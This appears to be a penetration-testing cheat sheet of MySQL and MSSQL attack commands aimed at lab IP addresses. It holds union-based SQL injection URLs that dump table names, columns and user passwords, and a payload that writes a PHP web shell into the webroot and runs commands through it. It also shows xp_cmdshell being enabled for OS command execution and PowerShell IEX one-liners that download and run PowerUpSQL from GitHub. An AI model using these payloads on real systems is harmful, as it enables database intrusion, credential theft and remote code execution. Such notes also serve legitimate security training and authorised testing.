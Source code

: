 MySQL 
- Enumerate tables:  
  `http://10.11.14.101/comment.php?id=769 union all select 1,2,3,4,table_name,6 FROM information_schema.tables` 
- Get columns of specific table:  
  `http://10.11.14.101/comment.php?id=769 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'` 
- Get content of table:  
  `http://10.11.14.101/comment.php?id=769 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users`  
- Create new php file with cmd.exe:  
  `http://10.11.14.101/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'`  
- Use the new page with params:  
  `http://10.11.14.101/backdoor.php?cmd=whoami`  

## MSSQL    
- Nmap scripts with db credentials:  
  `# nmap -n -Pn -p1433 --script "ms-sql-* and not ms-sql-brute" --script-args mssql.username=sa,mssql.password=<pw> 10.11.1.31`  
- Impacket mssqlclient.py:   
  `mssqlclient.py HOSTNAME/USERNAME:'PASSWORD'@10.10.10.22 -windows-auth`   
  Check if the user is sysadmin:   
  `SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')`  
  `-----------`   
  `1`  
  Run OS commands through xp_cmdshell:  
  `SQL> EXEC sp_configure 'xp_cmdshell', 1`  
  `[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.`  
  `SQL> reconfigure;`  
  `SQL> xp_cmdshell "whoami"` 
  `[...]`  
  `hostname\sql_svc`  
  Using PowerUpSQL:  
  `IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1')`  
  `$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username "domain\user" -password "passw0rd123" | Where-Object {$_.Status -like "Accessible"}`  
  `Invoke-SQLAudit -Verbose -Instance "servername.domain.local,1433"`  
  Manually get all SQL SPNs from list of reachable SQL servers:   
  `# add all sql targets to a file called sql_hosts.txt`   
  `# get all SPNs into a file:`   
  `foreach($entry in (Get-Content .\sql_hosts.txt)){ $dnsname = (Resolve-DnsName $entry).Namehost; setspn -q *MSSQL*/*$dnsname* | select-string "MSSQL" | Out-File sql_instances.txt -Append }`   

  import PowerUpSQL and run the SQLAudit on all instances:    
  `IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1')`   
  `foreach($item in ((Get-Content .\sql_instances.txt).trim() | ? {$_ -ne ""})){ Invoke-SQLAudit -Verbose -Instance "$item"}`   
  